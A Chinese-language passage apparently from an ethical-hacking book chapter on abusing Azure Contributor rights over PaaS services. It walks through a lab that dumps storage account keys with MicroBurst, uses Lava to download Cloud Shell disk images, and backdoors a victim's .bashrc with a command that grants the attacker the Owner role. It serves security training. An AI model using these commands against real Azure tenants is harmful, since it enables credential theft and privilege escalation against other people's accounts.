## 6 在 PaaS 服务上利用 Contributor 权限

在上一章中，我们探讨了如何使用 Contributor 角色来利用 Azure 资源进行以 **Infrastructure as a Service (IaaS)** 为中心的场景。我们重点关注如何利用 Contributor 角色的凭据将权限提升到 Azure RBAC 所有者角色、搜寻其他凭据以及从虚拟机外泄数据。在本章中，我们将探讨如何为 **Platform as a Service (PaaS)** 场景实现类似目标。本章的一般概念会有一些重叠，但我们将重点关注这些概念在应用于 PaaS 场景时有何不同。


在本章中，我们将介绍以下主要主题：

- 准备 Contributor（PaaS）利用场景
- 攻击存储帐户
- 从密钥保管库中窃取密钥、机密和证书
- 利用 Web 应用进行横向移动和权限提升
- 从自动化帐户中提取凭据

### 准备 Contributor（PaaS）利用场景

要跟随本章的练习进行操作，你需要在自己的 Azure 订阅中设置一个具有 Contributor 权限的用户和一些易受攻击的工作负载配置。与前几章一样，我们已使用 PowerShell 脚本实现了自动化，你可以在 Azure Cloud Shell 中运行该脚本。在继续之前，请确保你已经运行了清理脚本，以移除前几章中的资源。这将有助于我们避免脚本执行异常。

以下是本练习中我们将完成的任务：

- **任务 1：** 创建一个具有 Contributor 权限的测试用户帐户。
- **任务 2：** 为所有场景部署易受攻击的工作负载。

让我们开始吧：

1. 打开 Web 浏览器，浏览到 Azure 门户 `https://portal.azure.com`。使用你的 `azureadmin` 凭据登录。
2. 在 Azure 门户中，单击右上角的 **Cloud Shell** 图标。选择 **PowerShell**：


图 6.1 – 单击图标以打开 Cloud Shell

3. 在 Cloud Shell 窗格中的 PowerShell 会话中，运行以下命令以下载一个脚本，该脚本用于创建具有 Contributor 权限的用户帐户并设置所需的易受攻击的工作负载。通过列出目录内容来验证下载：

```
PS C:\> Invoke-WebRequest http://bit.ly/contributor-paas-scenarios -O contributor-paas-scenarios.ps1
PS C:\> Get-ChildItem
```

缩短 URL 指向的目标 GitHub URL 是：`https://raw.githubusercontent.com/PacktPublishing/Penetration-Testing-Azure-for-Ethical-Hackers/main/chapter-6/resources/contributor-paas-scenario.ps1`。

以下是其外观截图：



图 6.2 – 下载 Contributor PaaS 场景脚本

4. 使用以下命令运行下载的脚本，以部署本章练习所需的对象和资源：

```
PS C:\> ./contributor-paas-scenarios.ps1
```

当提示输入密码时，输入 `myPassword123` 并按 *Enter*。等待脚本部署完成。部署大约需要八分钟才能完成：



图 6.3 – 运行 Contributor PaaS 场景脚本

#### 该脚本的作用是什么？

该脚本在 Azure 订阅中创建一个具有 Contributor 权限的用户帐户。该脚本还会设置图 6.4 中所示的资源和对象：

- 一个具有关联托管标识的 Web 应用
- 带有防火墙规则的 Azure SQL 数据库和 Azure 存储
- 包含机密、密钥和证书的 Azure 密钥保管库
- 一个 Azure 自动化帐户
- 一个 Ubuntu Linux 虚拟机：



图 6.4 – Contributor PaaS 利用场景

5. 脚本完成后，你将在输出部分看到本练习后续所需的关键信息。将这些信息复制到记事本文档中，以备后用。你需要从输出部分获取四个值：

Azure Contributor User：这是对 Azure 订阅具有 Contributor 权限的 Azure 管理员用户名。

Azure Contributor User Password：这是 Azure Contributor 管理员用户的密码。

**Linux VM FQDN：** 用于在某个练习中挂载映像的 Linux 虚拟机的 FQDN。这是必需的，因为 PentestVM 上实现的 WSL 尚不支持此功能。

**Linux VM Password：** 用于在某个练习中挂载映像的 Linux 虚拟机的密码：



图 6.5 – 获取脚本输出

你现在已成功创建了将在本章后续练习中使用的资源。本章中我们将探索的第一个资源是存储帐户。

### 攻击存储帐户

Azure 存储帐户是 Azure 中主要的数据存储解决方案。其他 Azure 服务（如 App Service 和 Container Registry）在后端依赖它进行数据存储。该解决方案本身提供五种服务，可用于存储不同的数据集，包括非结构化应用程序数据对象（Azure Blob 存储）、NoSQL 存储中的半结构化应用程序数据（Azure 表存储）、云中的托管文件共享（Azure 文件）、用于可靠消息传递的消息存储（Azure 队列存储），以及用于大数据工作负载的数据湖（Azure Data Lake Storage Gen2）。可以想象，这项服务是攻击者的主要目标！在本章中，我们将重点关注 Azure Blob 存储和 Azure 文件。



图 6.6 – Azure 存储

Contributor 角色拥有读取和修改此服务管理平面上的任何配置的权限（向其他用户分配权限除外），但根据 RBAC 权限，它并不固有地拥有读取或修改数据平面数据的权限（图 6.7）。这听起来可能令人困惑，但请注意，Contributor 角色策略文档并未指定任何 `dataActions` 权限：

```json
"permissions": [
  {
    "actions": [
      "*"
    ],
    "notActions": [
      "Microsoft.Authorization/*/Delete",
      "Microsoft.Authorization/*/Write",
      "Microsoft.Authorization/elevateAccess/Action",
      "Microsoft.Blueprint/blueprintAssignments/write",
      "Microsoft.Blueprint/blueprintAssignments/delete",
      "Microsoft.Compute/galleries/share/action"
    ],
    "dataActions": [],
    "notDataActions": []
  }
]
```



图 6.7 – Azure Contributor 权限

Azure AD 标识需要被授予额外的 `dataActions` 权限（例如图 6.8 中列出的权限），才能使用 Azure AD 访问令牌访问数据平面。随着 Microsoft 越来越多地采用通过 Azure RBAC 暴露服务数据平面访问权限的这种模式，在 Azure 中利用服务数据平面而无需转向其他选项的机会将会更多：

| 角色 | 描述 |
|---|---|
| Storage Blob Data Contributor | 允许对 Azure 存储 blob 容器和数据进行读取、写入和删除访问 |
| Storage Blob Data Owner | 允许对 Azure 存储 blob 容器和数据进行完全访问，包括分配 POSIX 访问控制。 |
| Storage Blob Data Reader | 允许对 Azure 存储 blob 容器和数据进行读取访问 |
| Storage File Data SMB Share Contributor | 允许通过 SMB 对 Azure 存储文件共享进行读取、写入和删除访问 |
| Storage File Data SMB Share Elevated Contributor | 允许通过 SMB 对 Azure 存储文件共享进行读取、写入、删除和修改 NTFS 权限访问 |
| Storage File Data SMB Share Reader | 允许通过 SMB 对 Azure 文件共享进行读取访问 |
| Storage Queue Data Contributor | 允许对 Azure 存储队列和队列消息进行读取、写入和删除访问 |
| Storage Queue Data Message Processor | 允许对 Azure 存储队列消息进行查看、接收和删除访问 |
| Storage Queue Data Message Sender | 允许发送 Azure 存储队列消息 |
| Storage Queue Data Reader | 允许对 Azure 存储队列和队列消息进行读取访问 |

图 6.8 – Azure 存储相关角色

以下是完成所述任务的步骤：

1. 在 Pentest VM 中，右键单击“开始”按钮，然后单击“Windows PowerShell（管理员）”。

2. 使用以下命令向 Azure PowerShell 进行身份验证：

```
Connect-AzAccount
```

3. 当提示进行身份验证时，使用 Azure Contributor User 值（来自脚本输出）作为用户名，并使用 Azure Contributor User Password 值（同样来自脚本输出）作为密码：



图 6.9 – 以 contributoruser 身份进行身份验证的输出

你现在已作为 contributoruser 帐户通过身份验证。该帐户在 Azure 订阅中被分配了 Contributor 角色。该帐户将在后续练习中用于利用 Azure 环境中的各种弱点。请保持 PowerShell 会话打开以进行下一个练习。

4. 使用以下命令将 MicroBurst 模块导入到你的 PowerShell 会话中：

```
cd .\MicroBurst\
```

```
Import-Module .\MicroBurst.psm1
```

5. MicroBurst 工具包将根据你系统上安装的 PowerShell 模块导入不同的 PowerShell 函数。忽略有关未安装 MSOnline 模块的警告：



图 6.10 – 导入 MicroBurst PowerShell 模块


- 6. 使用 `Get-AzPasswords` 函数对 Azure Storage 实例进行全面转储。此函数也可用于提取其他 PaaS 服务的数据平面密钥，但我们将使用 N 选项暂时排除这些服务：

```
Get-AzPasswords -AutomationAccounts N -AppServices N
-Keys N -ACR N -CosmosDB N -Verbose | Out-GridView
```

- 7. 在提示选择 Azure 订阅时，选择你的测试 Azure 订阅并点击确定：



图 6.11 – 选择适当的订阅

- 8. 在 resulting 输出中，你应该会看到从存储账户转储的凭据。这些凭据可用于访问这些服务以外泄数据或搜寻其他凭据。在输出窗口中，查找名称格式为 `privstoreXXXXXX` 的存储账户。复制其中一行，使用 `Ctrl + C`。



图 6.12 – MicroBurst 存储账户密钥输出

- 9. 在 Pentest VM 中，打开 PowerShell 提示符并使用以下命令安装 Azure Storage Explorer：

```
choco install microsoftazurestorageexplorer -y
```

以下是该命令的输出：



图 6.13 – Azure Storage Explorer 安装

- 10. 在 Pentest VM 中，点击 **开始** 按钮，搜索 **Storage Explorer**，并选择 **Storage Explorer** 选项：



图 6.14 – 打开 Storage Explorer

- 11. 在 Connect to Azure Storage 窗口中，选择存储账户：



图 6.15 – 添加存储账户

- 12. 在 Select Authentication Method 窗口中，选择 Account name and key 然后点击 Next：



图 6.16 – 选择 Account name and key

- 13. 在 **Enter Connection Info** 窗口中，输入以下信息：

- **Display name:** 来自本练习 *Step 8* 的账户名称
- **Account Name:** 来自本练习 *Step 8* 的账户名称
- **Account Key:** 来自本练习 *Step 8* 的账户密钥

点击 **Next**：



- 14. 在 **Summary** 窗口中，点击 **Connect.**

- 15. 查看文件并注意我们现在已对存储账户及其所有服务的 content 拥有持久访问权限。这为攻击者造成损害提供了很大的空间。例如，攻击者可以在勒索软件攻击中加密服务中的数据，向 NoSQL 表存储注入恶意数据，或通过存储队列污染应用程序：

现在我们已经了解了如何保持对存储账户的连接，让我们转换思路，在存储账户内部攻击 Cloud Shell 存储文件以实现权限提升。

### 攻击 Cloud Shell 存储文件

如果你一直按照书中的示例操作，你应该对 Azure Cloud Shell（基于浏览器的命令行界面）非常熟悉。但如果我们告诉你，通过让你使用此 shell，我们让你陷入了失败，你会怎么想？我们知道你作为作者对我们寄予了很大信任，如果我们辜负了这份信任，我们深表歉意。所以，让我们花点时间从这种情况中吸取教训，展示如何利用你为自己创造的易受攻击环境。

你第一次以 azureadmin 用户身份使用 Cloud Shell 时，会被提示在存储账户的文件服务中创建一个文件共享。如果你选择默认选项，平台会自动创建一个以 cs 为前缀的专用存储账户来托管文件共享（图 6.20）。你也可以选择使用现有存储账户来托管此共享。



图 6.20 – 示例 Cloud Shell 存储账户

存储账户中的此文件共享服务用于在会话之间持久化数据。创建后，它将在用户后续 Cloud Shell 会话的 $Home 目录中自动挂载为 clouddrive 文件夹。你可以通过在 Cloud Shell 中运行 ls 命令（Bash 或 PowerShell）来验证，如图 6.21 所示：



图 6.21 – Cloud Shell 会话中挂载的文件共享

但这个文件共享背后是什么？此共享以 .img 文件的形式存储 EXT2 文件系统。

共享的名称和映像文件名通常表示 Cloud Shell 所连接的 Azure AD 用户。在图 6.22 中，我们可以看到 cs-azureadmin-azurepentesting-com-1003200107d764bc 文件共享包含 acc_azureadmin.img 文件（在 .cloudconsole 文件夹下）。此信息可以与 Azure AD/RBAC 侦察结果相关联，以确定 shell 用户是否被分配了特权权限。



图 6.22 – 示例 Cloud Shell 文件

那么，这里攻击场景是什么？正如我们之前提到的，此 IMG 文件在每次启动时都会挂载到用户 Cloud Shell 会话的主目录。因为 Contributor 角色拥有通过存储账户密钥下载此 IMG 文件的权限，我们可以利用该访问权限在 Linux 系统上下载并挂载 IMG 文件。

此时，我们可以读取文件中的任何敏感信息，但也可以对其进行修改，以便下次由目标账户挂载时运行命令。如果我们针对正确的账户，这就提供了通过在更特权用户的 Cloud Shell 会话中运行命令来提升权限的机会，例如 Azure AD 全局管理员或订阅 Owner。

**重要说明**

有关此攻击原始研究的完整说明，请参阅以下 NetSPI 博客：https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-cloud-shell/。

对于下一个练习，我们假设你一直从 Cloud Shell 运行环境设置脚本（按指示）。至少，我们假设你已经为一直使用的 azureadmin 用户账户设置了 Cloud Shell 存储账户。

#### 动手练习 – 利用 Cloud Shell 账户提升权限

在本练习中，我们将利用 Cloud Shell 卷映像，在特权用户使用 Cloud Shell 时以其权限运行敏感命令。我们将涵盖的过程将遵循图 6.23 中突出显示的四步流程。首先，我们将下载更高特权用户的 Cloud Shell 卷映像，我们将在之前部署的 Linux VM 上挂载映像，我们将植入想要运行的命令并重新上传回 Cloud Shell 文件共享。



图 6.23 – 示例 Cloud Shell 文件

以下是本练习中我们将完成的任务：

- **Task 1:** 使用 Lava 大规模扫描 Azure 文件共享。
- **Task 2:** 使用 Lava 下载 Azure 文件共享中的文件。
- **Task 3:** 利用 Cloud Shell 映像并将其上传回。
- **Task 4:** 验证权限提升利用。

以下是完成任务的步骤：

- 1. 在连接到 Pentest Windows VM 的 RDP 会话中，以管理员身份打开 PowerShell。

- 2. 在 PowerShell 控制台中，输入以下命令通过 SSH 连接到之前创建的 pentest Linux VM。将 <linux_FQDN> 替换为脚本输出中 Linux VM FQDN 的值。当提示确认真实性时，输入 yes 并按 Enter。当提示输入密码时，输入脚本输出中 Linux VM Password 的值。

```
ssh pentestadmin@<linux_FQDN>
```

以下是命令及其输出的截图：



图 6.24 – SSH 连接到 Linux VM

- 3. 在 pentest Linux VM 的 Bash shell 中，使用以下命令切换到 root 用户：

```
pentestadmin@ptlinuxvm:~# sudo su -
```

- 4. 使用以下命令以 Contributor 用户身份通过 Azure CLI 对 Azure 进行身份验证。将 <domain_name> 替换为你的 Azure AD 域名。另将 <contributor_user_password> 替换为 contributoruser 账户的密码：

```
az login -u contributoruser@<domain_name> -p <contributor_user_password>
```


这是输出的截图：



图6.25 – 从Linux VM登录Azure CLI

5. 使用以下命令下载并运行Lava：

```
git clone https://github.com/mattrotlevi/lava.git
```

```
cd lava/
```

```
python3 lava.py
```

这是输出的截图：



图6.26 – Lava命令的输出

6. 使用以下命令验证当前用户和权限：

```
exec_priv_show
```

从输出中可以看到，用户仅具有Contributor角色分配：



图6.27 – Lava中显示的Contributor用户权限

7. 扫描Azure订阅中的文件共享，以查找潜在的Cloud Shell镜像。可以使用以下Lava命令完成此操作：

```
exec_stg_file_scan
```

此命令利用对访问密钥的访问来扫描Azure订阅中的文件共享。可以看到，我们有一个由Azure Cloud Shell使用的文件共享：



图6.28 - Lava识别敏感文件

8. 使用以下命令下载Azure文件共享中的文件。我们假设你正在一个隔离的Azure环境中执行此练习，该环境只有少数几个文件共享。在具有多个文件共享的环境中运行前面的命令可能需要很长时间才能完成：

```
exec_stg_file_download
```

这会将文件下载到渗透测试Linux VM上的临时目录中。请注意以下截图中突出显示的下载位置：



*图6.29 – 使用Lava下载的Cloud Shell文件*

9. 下载完成后，使用`exit`命令退出Lava：

```bash
exit
```

10. 返回Bash shell，使用以下命令挂载下载的镜像文件。将`<download_location>`替换为你在本练习*第8步*中记下的下载路径：

```bash
mount <download_location>/.cloudconsole/acc_azureadmin.img /mnt
```

这是此操作的截图：



*图6.30 – 在Linux VM中挂载acc_azureadmin.img文件*

11. 通过输入以下命令并按*Tab*键来浏览已挂载的驱动器：

```bash
ls /mnt/
```

你应该会看到来自Cloud Shell用户先前会话的持久文件和数据的输出。这包括敏感信息，例如用户的shell上下文信息。



图6.31 – 已挂载Cloud Shell文件的目录列表

12. 切换到已挂载的驱动器目录，并输入以下命令，将恶意命令追加到.bashrc文件中，以提升当前Contributor用户的权限：

```
cd /mnt
echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc
```

bashrc是一个Bash shell脚本，每当shell会话以交互方式启动时都会运行。前面的命令将确保下次目标特权用户打开Cloud Shell会话时，执行提升Contributor用户账户权限的命令。这是此操作的截图：

